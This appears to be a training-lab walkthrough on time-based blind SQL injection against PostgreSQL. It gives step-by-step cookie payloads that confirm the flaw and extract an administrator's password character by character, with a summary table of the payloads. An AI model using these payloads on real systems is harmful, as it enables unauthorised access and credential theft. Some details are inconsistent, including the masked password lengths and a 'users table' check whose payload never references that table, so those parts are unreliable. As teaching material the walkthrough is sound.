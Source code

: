 # 🔍 **Lab Walkthrough: Blind SQL Injection with Time Delays and Information Retrieval**

## 🎯 **Lab Title**: *Blind SQL injection with time delays*

## 🧪 **Lab Objective**

You are tasked with exploiting a **blind SQL injection vulnerability** in a vulnerable web application that uses a `TrackingId` cookie for analytics.

- No output is returned.
- The application doesn't change behavior based on query results.
- However, the SQL query is executed **synchronously**, so you can exploit it using **time-based blind SQL injection**.

Your goal:
- Extract the password of the `administrator` user.
- Log in as administrator to complete the lab.

## 🧠 **Key Concepts Recap**

### 1️⃣ **Blind SQL Injection**
A type of SQL injection where:
- You cannot see the output of your queries.
- There's no visible error or difference in content.
- But you can still infer data using side channels like **timing delays**.

### 2️⃣ **Time-Based Blind SQL Injection**
Use database-specific sleep functions to trigger **delays** depending on whether a condition is true or false:
- PostgreSQL → `pg_sleep()`
- MySQL → `SLEEP()`
- MSSQL → `WAITFOR DELAY`
- Oracle → `DBMS_PIPE.RECEIVE_MESSAGE`

If the HTTP response is delayed, the condition is likely `TRUE`.

## 🛠️ **Step-by-Step Exploitation Guide**

### ✅ Step 1: Confirm SQL Injection Vulnerability

Start by testing if the `TrackingId` parameter is vulnerable:

### 📥 Payload:
```http
Cookie: TrackingId='+||+pg_sleep(2)--
```

### 💡 Result:
- Delayed response (~2 seconds) → Indicates SQL injection is possible ✅
- Confirms backend is **PostgreSQL**

### ✅ Step 2: Check if `users` Table Exists

Now verify if the `users` table exists using conditional timing:

### 📥 Payload:
```http
Cookie: TrackingId='|| (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(-1) END)--
```

### 💡 Result:
- Delay occurs → Query was executed successfully ✅  
➡️ `users` table likely exists

### ✅ Step 3: Confirm `administrator` User Exists

Test if the `administrator` user exists in the `users` table.

### 📥 Payload:
```http
Cookie: TrackingId='||+(SELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(5)+ELSE+pg_sleep(-1)+END+FROM+users+WHERE+username%3d'administrator')--
```

### 💡 Result:
- Delay occurred → `administrator` user **exists** ✅

Try again with a non-existent username:

### 📥 Payload:
```http
Cookie: TrackingId='||+(SELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(5)+ELSE+pg_sleep(-1)+END+FROM+users+WHERE+username%3d'administrator1')--
```

### 💡 Result:
- No delay → User not found ❌

✅ This confirms we can detect user existence via time-based inference.

### ✅ Step 4: Determine Password Length

Now find the length of the `administrator`’s password.

### 📥 Payload:
```http
Cookie: TrackingId='||+(SELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(5)+ELSE+pg_sleep(-1)+END+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)%3d20)--
```

🔁 Use **Burp Intruder** to test values from `1` to `30`.

### 💡 Result:
- When `LENGTH(password)=20` → Delay occurred ✅  
➡️ The password has **20 characters**

### ✅ Step 5: Extract Password Character by Character

Now extract each character using `SUBSTRING()` and ASCII comparisons.

#### Example payload for position 1:
```http
Cookie: TrackingId='||+(SELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(5)+ELSE+pg_sleep(-1)+END+FROM+users+WHERE+username%3d'administrator'+AND+SUBSTRING(password,1,1)%3d'k')--
```

🔁 Repeat this for positions `2` through `20`, using Burp Intruder or binary search techniques.

### ✅ Step 6: Reconstructed Password

From your testing, you've extracted all 20 characters:


### 🔐 Final Password:
```plaintext
k7udy8xxxxxxxxxxxxxxx
```

### ✅ Step 7: Log In as Administrator

Go to `/login` and enter:

- **Username:** `administrator`
- **Password:** `k7udy8xxxxxxxxxxxxx`

🔐 **Logged in successfully! Lab solved.**

## 🧾 Summary of Key Payloads

| Purpose | Payload |
|--------|---------|
| Confirm SQLi + DB Type | `' || pg_sleep(2)--` |
| Test `users` table | `' || (SELECT CASE WHEN (1=1) THEN pg_sleep(5) END FROM users)--` |
| Confirm admin user | `' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(5) END FROM users)--` |
| Find password length | `' || (SELECT CASE WHEN LENGTH(password)=20 THEN pg_sleep(5) END FROM users WHERE username='administrator')--` |
| Extract char-by-char | `' || (SELECT CASE WHEN SUBSTRING(password,1,1)='k' THEN pg_sleep(5) END FROM users WHERE username='administrator')--` |

## 🧠 Takeaways

- Even when there’s **no visible output**, blind SQL injection can be exploited using **timing side channels**.
- Different databases have different **sleep functions** — use the right one!
- Burp Intruder is a powerful tool for **automating character extraction**.
- Always validate assumptions (e.g., table existence, user presence) before extracting secrets.


## 🙌 Final Notes

Great job solving this challenging lab! You’ve shown mastery over:
- Blind SQL injection fundamentals
- Database fingerprinting
- Timing-based data extraction
- Automation with Burp Suite

<!-- admin password -`k7udy8fhe2spndmdx0xx` -->
